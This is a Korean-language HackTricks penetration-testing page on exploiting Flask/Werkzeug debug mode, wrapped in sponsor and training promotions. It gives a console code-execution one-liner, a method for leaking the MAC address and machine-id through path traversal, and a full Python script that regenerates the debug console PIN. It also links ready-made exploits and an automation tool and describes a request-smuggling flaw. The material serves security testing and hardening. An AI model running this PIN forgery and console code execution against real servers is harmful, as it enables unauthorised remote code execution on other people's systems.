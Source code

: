 # Werkzeug / Flask Debug

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**취약점 평가 및 침투 테스트를 위한 즉시 사용 가능한 설정**. 20개 이상의 도구 및 기능을 사용하여 어디서나 전체 침투 테스트를 실행하세요. 우리는 침투 테스터를 대체하지 않습니다 - 우리는 그들이 더 깊이 파고들고, 쉘을 터뜨리고, 재미를 느낄 수 있도록 맞춤형 도구, 탐지 및 악용 모듈을 개발합니다.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Console RCE

디버그가 활성화되어 있으면 `/console`에 접근하여 RCE를 얻으려고 시도할 수 있습니다.
```python
__import__('os').popen('whoami').read();
```
![](<../../.gitbook/assets/image (117).png>)

인터넷에는 [이것](https://github.com/its-arun/Werkzeug-Debug-RCE)과 같은 여러 익스플로잇이 있습니다. 또는 메타스플로잇에서 하나를 찾을 수 있습니다.

## 핀 보호 - 경로 탐색

일부 경우 **`/console`** 엔드포인트는 핀으로 보호됩니다. **파일 탐색 취약점**이 있는 경우 해당 핀을 생성하는 데 필요한 모든 정보를 유출할 수 있습니다.

### Werkzeug 콘솔 PIN 익스플로잇

앱에서 디버그 오류 페이지를 강제로 표시하여 이를 확인하십시오:
```
The console is locked and needs to be unlocked by entering the PIN.
You can find the PIN printed out on the standard output of your
shell that runs the server
```
"console locked" 시나리오에 대한 메시지가 Werkzeug의 디버그 인터페이스에 접근하려고 할 때 나타나며, 콘솔 잠금을 해제하기 위해 PIN이 필요함을 나타냅니다. 콘솔 PIN을 악용하기 위해 Werkzeug의 디버그 초기화 파일(`__init__.py`)에서 PIN 생성 알고리즘을 분석할 것을 제안합니다. PIN 생성 메커니즘은 [**Werkzeug 소스 코드 저장소**](https://github.com/pallets/werkzeug/blob/master/src/werkzeug/debug/\_\_init\_\_.py)에서 연구할 수 있지만, 잠재적인 버전 불일치로 인해 실제 서버 코드를 파일 탐색 취약점을 통해 확보하는 것이 좋습니다.

콘솔 PIN을 악용하기 위해 두 세트의 변수가 필요합니다: `probably_public_bits`와 `private_bits`.

#### **`probably_public_bits`**

* **`username`**: Flask 세션을 시작한 사용자를 나타냅니다.
* **`modname`**: 일반적으로 `flask.app`으로 지정됩니다.
* **`getattr(app, '__name__', getattr(app.__class__, '__name__'))`**: 일반적으로 **Flask**로 해결됩니다.
* **`getattr(mod, '__file__', None)`**: Flask 디렉토리 내의 `app.py`에 대한 전체 경로를 나타냅니다 (예: `/usr/local/lib/python3.5/dist-packages/flask/app.py`). `app.py`가 적용되지 않는 경우, **`app.pyc`를 시도하십시오**.

#### **`private_bits`**

* **`uuid.getnode()`**: 현재 머신의 MAC 주소를 가져오며, `str(uuid.getnode())`는 이를 10진수 형식으로 변환합니다.
* **서버의 MAC 주소를 결정하기 위해**, 앱에서 사용되는 활성 네트워크 인터페이스를 식별해야 합니다 (예: `ens3`). 불확실한 경우, **`/proc/net/arp`를 누출하여 장치 ID를 찾고, 그 다음 **`/sys/class/net/<device id>/address`**에서 MAC 주소를 추출합니다.
* 16진수 MAC 주소를 10진수로 변환하는 방법은 아래와 같습니다:

```python
# 예시 MAC 주소: 56:00:02:7a:23:ac
>>> print(0x5600027a23ac)
94558041547692
```
* **`get_machine_id()`**: `/etc/machine-id` 또는 `/proc/sys/kernel/random/boot_id`의 데이터를 마지막 슬래시(`/`) 이후의 `/proc/self/cgroup`의 첫 번째 줄과 연결합니다.

<details>

<summary>`get_machine_id()` 코드</summary>
```python
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:
global _machine_id

if _machine_id is not None:
return _machine_id

def _generate() -> t.Optional[t.Union[str, bytes]]:
linux = b""

# machine-id is stable across boots, boot_id is not.
for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
try:
with open(filename, "rb") as f:
value = f.readline().strip()
except OSError:
continue

if value:
linux += value
break

# Containers share the same machine id, add some cgroup
# information. This is used outside containers too but should be
# relatively stable across boots.
try:
with open("/proc/self/cgroup", "rb") as f:
linux += f.readline().strip().rpartition(b"/")[2]
except OSError:
pass

if linux:
return linux

# On OS X, use ioreg to get the computer's serial number.
try:
```
</details>

모든 필요한 데이터를 수집한 후, 익스플로잇 스크립트를 실행하여 Werkzeug 콘솔 PIN을 생성할 수 있습니다:

모든 필요한 데이터를 수집한 후, 익스플로잇 스크립트를 실행하여 Werkzeug 콘솔 PIN을 생성할 수 있습니다. 이 스크립트는 조합된 `probably_public_bits`와 `private_bits`를 사용하여 해시를 생성한 다음, 최종 PIN을 생성하기 위해 추가 처리를 수행합니다. 아래는 이 프로세스를 실행하기 위한 Python 코드입니다:
```python
import hashlib
from itertools import chain
probably_public_bits = [
'web3_user',  # username
'flask.app',  # modname
'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
'/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
'279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode('utf-8')
h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
for x in range(0, len(num), group_size))
break
else:
rv = num

print(rv)
```
이 스크립트는 연결된 비트를 해싱하고 특정 솔트(`cookiesalt` 및 `pinsalt`)를 추가하며 출력을 형식화하여 PIN을 생성합니다. 실제 `probably_public_bits` 및 `private_bits`의 값은 Werkzeug 콘솔에서 예상되는 PIN과 일치하도록 목표 시스템에서 정확하게 얻어야 한다는 점에 유의하는 것이 중요합니다.

{% hint style="success" %}
**오래된 버전**의 Werkzeug를 사용 중이라면 해싱 알고리즘을 sha1 대신 **md5로 변경**해 보십시오.
{% endhint %}

## Werkzeug 유니코드 문자

[**이 문제**](https://github.com/pallets/werkzeug/issues/2833)에서 관찰된 바와 같이, Werkzeug는 헤더에 유니코드 문자가 포함된 요청을 닫지 않습니다. 그리고 [**이 글**](https://mizu.re/post/twisty-python)에서 설명된 바와 같이, 이는 CL.0 요청 스머글링 취약점을 유발할 수 있습니다.

이는 Werkzeug에서 일부 **유니코드** 문자를 전송할 수 있으며, 이로 인해 서버가 **중단**될 수 있기 때문입니다. 그러나 HTTP 연결이 **`Connection: keep-alive`** 헤더로 생성된 경우 요청의 본문은 읽히지 않으며 연결은 여전히 열려 있으므로 요청의 **본문**은 **다음 HTTP 요청**으로 처리됩니다.

## 자동화된 악용

{% embed url="https://github.com/Ruulian/wconsole_extractor" %}

## 참고자료

* [**https://www.daehee.com/werkzeug-console-pin-exploit/**](https://www.daehee.com/werkzeug-console-pin-exploit/)
* [**https://ctftime.org/writeup/17955**](https://ctftime.org/writeup/17955)
* [**https://github.com/pallets/werkzeug/issues/2833**](https://github.com/pallets/werkzeug/issues/2833)
* [**https://mizu.re/post/twisty-python**](https://mizu.re/post/twisty-python)

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**취약점 평가 및 침투 테스트를 위한 즉시 사용 가능한 설정**. 20개 이상의 도구 및 기능을 사용하여 어디서나 전체 침투 테스트를 실행하십시오. 우리는 침투 테스터를 대체하지 않습니다 - 우리는 그들이 더 깊이 파고들고, 셸을 터뜨리고, 재미를 느낄 수 있도록 맞춤형 도구, 탐지 및 악용 모듈을 개발합니다.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
